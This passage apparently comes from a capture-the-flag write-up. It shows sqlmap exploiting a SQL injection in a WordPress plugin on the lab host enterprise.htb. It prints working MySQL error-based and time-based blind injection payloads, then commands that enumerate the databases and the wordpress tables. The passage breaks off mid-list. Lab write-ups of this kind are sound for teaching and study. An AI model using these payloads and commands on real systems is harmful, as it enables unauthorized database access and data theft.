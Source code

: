         Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: query=1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: query=1 AND (SELECT 4649 FROM (SELECT(SLEEP(5)))bNLz)
    ---
    [14:10:54] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 8 (jessie)
    web application technology: PHP 5.6.31, Apache 2.4.10
    back-end DBMS: MySQL >= 5.0
    [14:10:55] [INFO] fetched data logged to text files under '/home/oxdf/.local/share/sqlmap/output/enterprise.htb'



It finds three injections, boolean-based blind, error-based, and
time-based blind. Blind injections are always going to be slow, as they
basically give one bit character per query. I'll look at how the
injection works in [Beyond Root](#beyond-root---error-based-sqli).

#### DB Enum

Start by listing the databases:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dbs
    ...[snip]...
    available databases [8]:
    [*] information_schema
    [*] joomla
    [*] joomladb
    [*] mysql
    [*] performance_schema
    [*] sys
    [*] wordpress
    [*] wordpressdb
    ...[snip]...



The wordpress DB has 12 tables:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress --tables
    ...[snip]...
    Database: wordpress              
    [12 tables]                                       
    +-----------------------+                
    | wp_commentmeta        |                         
    | wp_comments           |
    | wp_links              |
    | wp_options            |
    | wp_postmeta           |
    | wp_posts              |
    | wp_term_relationships |
    | wp_term_taxonomy      |
    | wp_termmeta           |